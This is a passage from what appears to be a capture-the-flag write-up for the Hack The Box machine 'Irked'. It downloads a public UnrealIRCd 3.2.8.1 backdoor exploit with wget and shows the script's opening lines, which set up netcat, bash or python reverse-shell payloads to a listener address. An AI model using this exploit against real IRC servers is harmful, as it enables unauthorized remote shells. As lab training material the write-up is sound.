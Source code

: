 <br />
Google the UnrealIRC to try and find an exploit.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/irked/google.png" title="Google the Sercice" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Download the exploit.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/irked]
└─$ wget https://raw.githubusercontent.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor/refs/heads/master/exploit.py
--2025-01-27 12:15:20--  https://raw.githubusercontent.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor/refs/heads/master/exploit.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 2606:50c0:8003::154, 2606:50c0:8000::154, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2195 (2.1K) [text/plain]
Saving to: ‘exploit.py’

exploit.py                                                 100%[========================================================================================================================================>]   2.14K  --.-KB/s    in 0s      

2025-01-27 12:15:20 (48.6 MB/s) - ‘exploit.py’ saved [2195/2195]
```
{% endraw %}

<br />
Update the python script with the proper LHOST and LPORT.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/irked]
└─$ cat exploit.py        
#!/usr/bin/python3
import argparse
import socket
import base64

# Sets the target ip and port from argparse
parser = argparse.ArgumentParser()
parser.add_argument('ip', help='target ip')
parser.add_argument('port', help='target port', type=int)
parser.add_argument('-payload', help='set payload type', required=True, choices=['python', 'netcat', 'bash'])
args = parser.parse_args()

# Sets the local ip and port (address and port to listen on)
local_ip = '10.10.16.12'  # CHANGE THIS
local_port = '443'  # CHANGE THIS 

<snip>
```
{% endraw %}
